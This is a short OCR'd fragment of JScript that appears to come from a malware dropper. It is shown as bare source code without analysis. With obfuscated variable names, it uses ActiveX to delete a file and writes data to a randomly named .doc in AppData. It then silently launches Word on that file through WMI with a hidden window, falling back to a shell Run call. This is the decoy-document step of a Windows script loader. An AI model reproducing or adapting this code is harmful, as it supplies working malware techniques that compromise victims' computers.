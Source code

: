 ```js
        }
    OfficeVersion = 0;
    key = 0;
    datakey = 0;
    // Push breakpoint
    ygahzfm64 = 0;
    ygahzfm354 = 0;
    ygahzfm6906 = 0;
    ygahzfm619 = 0;
    ygahzfm0731 =0;
    if (PathLastElement) 
        {
            try 
            {
                var ScriptingObj1 = get_actxobj("Scripting.FileSystemObject");
                if (ScriptingObj1.FileExists(PathLastElement)) {ScriptingObj1.DeleteFile(PathLastElement);}
            }
            catch(e) {excepvalue = 421;}
            ygahzfm822 = 0;
            ScriptingObj1 = 0;
        } 
    else {PathLastElement = path_appdata + get_random_num() + ".doc";}
    if (write_obj(ygahzfm3282, PathLastElement, ygahzfm555, ygahzfm81, 0) === 1)
    {

        var PathDoc = '"' + PathLastElement + '"';
        var ControlValue = 0;
        try 
        {
            var wmiObj3 = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2");
            var StartInfos3 = wmiObj3.Get("Win32_ProcessStartup").SpawnInstance_();
            StartInfos3.ShowWindow = 0;
            var OpenWord = wmiObj3.Get("Win32_Process").Create('cmd /c start "" winword.exe ' + PathDoc, null, StartInfos3, 0);
            if (OpenWord !== 0){ygahzfm564;}
        } 
        catch(e) 
        {
            try
            {
                ActXobj1.Run(PathDoc, 1, 0);
                ControlValue = 1;
            } 
            catch (e) {ControlValue = 0;}
        }
        PathDoc = 0;
    }
    ygahzfm3282 = 0;
    PathLastElement = 0;
  ```
